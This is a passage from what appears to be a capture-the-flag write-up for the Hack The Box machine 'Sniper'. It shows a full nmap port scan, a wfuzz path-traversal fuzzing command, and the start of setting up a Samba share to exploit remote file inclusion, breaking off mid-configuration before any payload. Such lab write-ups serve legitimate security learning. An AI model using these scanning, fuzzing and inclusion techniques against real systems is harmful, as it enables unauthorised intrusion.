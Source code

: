 ``` $ nmap -vvv -p1-65535 -oN pall.txt 10.10.10.151 ```
So at the moment I decided to work on those login and blog pages. I started by login page and tried some random username passwords but non of them worked. Then I did some SQLinjection tests and still no way to get into the system:

![06-sqlinjection](https://user-images.githubusercontent.com/62805453/85050949-65ceb100-b186-11ea-8c1d-35b9b0889fa3.png)

There was another link which I hoped find something interesting in it:

http://10.10.10.151/blog/index.php

By looking at the menu I found another page which I had no doubt that it is the key to unlock the system: http://10.10.10.151/blog/?lang=blog-en.php 

At first, I tried path traversal attack using wfuzz tool which was unsuccessful.

``` $ wfuzz -c -w /root/tools/Script-payload/PayloadsAllTheThings/DirectoryTraversal/Intruder/directory_traversal.txt --hc 400,403,404 http://10.10.10.151/blog/?lang=FUZZ ```

![07-wfuzz](https://user-images.githubusercontent.com/62805453/85050952-66674780-b186-11ea-9256-74745071b241.png)

Then I used different techniques to get into the target machine and finally I found this page which helped me to connect to the system:

http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

![08-mannuphp](https://user-images.githubusercontent.com/62805453/85050953-66674780-b186-11ea-89c4-cb4260d24610.png)

Install Samba server if you don’t have it on your machine:

``` $ sudo apt-get install samba ```

Create SMB share directory (in my case /var/www/html/pub/):

``` $ mkdir HTB/sniper.151/pub ``` ( you may want to make a directory in /var/www/html/ )

Configure permissions on newly created SMB share directory:

``` $ chmod 0555 HTB/sniper.151/pub ```

``` $ chown -R nobody:nogroup HTB/sniper.151/pub ```

Run below mentioned command to remove default content of SAMBA server config file:

``` $  echo > /etc/samba/smb.conf ```

Put below mentioned content in file "/etc/samba/smb.conf":

##### [global]

``` workgroup = WORKGROUP ```

``` server string = Samba Server %v ```

``` netbios name = indishell-lab ```

``` security = user ```

``` map to guest = bad user ```

``` name resolve order = bcast host ```

``` dns proxy = no ```
```